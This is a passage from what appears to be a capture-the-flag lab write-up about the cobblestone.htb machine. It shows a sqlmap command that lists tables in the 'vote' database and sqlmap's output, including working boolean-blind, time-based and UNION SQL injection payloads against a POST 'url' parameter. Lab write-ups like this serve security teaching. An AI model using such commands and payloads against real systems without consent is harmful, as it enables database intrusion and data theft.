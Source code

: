 Let’s check out the `vote` database.
```bash
sqlmap -r req --batch -D vote --tables
```

```sql
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.9.4#dev}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:33:15 /2025-09-28/

[13:33:15] [INFO] parsing HTTP request from 'req'
[13:33:15] [INFO] resuming back-end DBMS 'mysql'
[13:33:15] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=6'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5926=5926 AND 'GBwC'='GBwC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND SLEEP(5) AND 'CmvC'='CmvC

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=-6395' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626271,0x5050685272454b637067796d43666d72656a42795669764e784141746e64484d527351556a745651,0x7178627171),NULL-- -
---
[13:33:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:33:17] [INFO] fetching tables for database: 'vote'
Database: vote
[2 tables]
+-------+
| users |
| votes |
+-------+

[13:33:18] [INFO] fetched data logged to text files under '/home/rouxtronics/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 13:33:18 /2025-09-28/
```
